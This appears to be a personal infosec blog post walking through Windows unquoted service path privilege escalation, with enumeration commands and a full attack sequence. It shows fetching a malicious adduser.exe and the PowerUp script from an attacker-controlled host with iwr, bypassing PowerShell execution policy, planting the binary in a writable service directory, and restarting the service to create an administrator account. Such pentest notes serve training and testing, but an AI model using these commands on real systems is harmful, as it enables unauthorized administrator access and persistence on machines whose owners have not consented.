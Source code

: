 ```yaml
---
layout: post
title: Windows Unquoted Paths
titledate: 09/16/23
tags: ["infosec","offsec", "privesc", "powershell", "dll", "powerup", "win_enum"]
---
```


#### unquoted binary path abuse

when windows encounters an unquoted path to a binary application it follows a specific order of execution

- C:\Program.exe
- C:\Program Files\My.exe
- C:\Program Files\My Program\My.exe
- C:\Program Files\My Program\My service\service.exe

looking at the example above, for the binary service.exe it trys to execute the first word encountered by appending .exe to it assuming that we meant to call that the executable

for the first few directories we encounter that are Windows managed by default usually locked down pretty tight with permissions we can not do much (i.e Program.exe will likely not be a viable exploit option for us), however, as we continue down the path to directories and software that the user has created we will have more options. In the case above the My Service directory can be exploited by adding the My binary to the My Program files

if we want to enumerate running and stopped processes

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName

now we can enter a command to get us all binaries with their respective paths that are located outside the Windows directory

### C:> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

as always when working with services, to determine if our current user has the permissions required to execute the service, we begin by trying to start the service

    PS > Start-Service myservice
    PS > Stop-Service myservice

now we can uses icalcs to check the permissions of the service binary directories - check each dir

    PS > icacls "C:\Program Files\Enterprise Apps" (...\Current Version\nyservice.exe)

in this example we have write permissions available to the current user for the Enterprise Apps directory

so we can copy our malicious executable over - and label it Current.exe as the next path it is looking for is Curent Version

start our python server

    $ python3 -m http.server 80

now import the our binary

    PS > iwr -uri http://192.168.1.1/adduser.exe -Outfile Current.exe
    PS > copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'

now start the service to execute our code

    PS > Start-Service myservice

we may get a powershell error , but that does not necessarily mean our code did not execute before the script errored out

#### PowerUp automation

we can achieve similar results with the PowerUp powershell script

    PS > iwr http://192.168.1.1/PowerUp.ps1 -Outfile PowerUp.ps1

we copy the script over and allow the execution bypass

    PS > powershell -ep bypass

start the script

    PS > . .\PowerUp.ps1

execute the unquoted service option

    PS > Get-UnquotedService

and then check if we have the abuse function and point it to the path binary we are creating, by default this creates the john admin user, however we can modify to change the password of a current admin acount if we wish or any other sys level command

    PS > Write-ServiceBinary -Name 'myservice' -Path "C:\Program Files\Enterprise Apps\Current.exe"

to execute our code we need to restart the service

    PS > Restart-Service myservice

and again even if the script errors we may have achieved our code execution